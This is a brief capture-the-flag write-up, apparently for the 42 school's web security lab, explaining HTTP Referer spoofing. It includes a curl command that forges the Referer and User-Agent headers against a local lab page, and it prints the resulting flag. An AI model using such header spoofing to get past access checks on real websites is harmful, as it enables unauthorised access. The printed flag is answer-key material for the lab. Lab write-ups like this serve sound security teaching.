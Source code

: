 # HTTP referer spoofing
Concerns sending incorrect referer information in an HTTP request in order to prevent a website from obtaining accurate data on the identity of the web page previously visited by the user and furthermore, may allow the user to access pages whilsted being unautherised.

### Step 1
Navigate to http://0.0.0.0/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
> * Inspect, look at page and comments
> * Filter through the 42 info to find: _you must be coming from https://www.nsa.gov/_ and _use the ft_bornToSec browser_

### Step 2
> * Attack: Use cURL to modify the Referer and User-agent section within the header
> 1. curl -H "User-Agent: ft_bornToSec" --referer https://www.nsa.gov/ http://0.0.0.0/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c |
 grep "flag"
> 2. **THE FLAG IS : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**

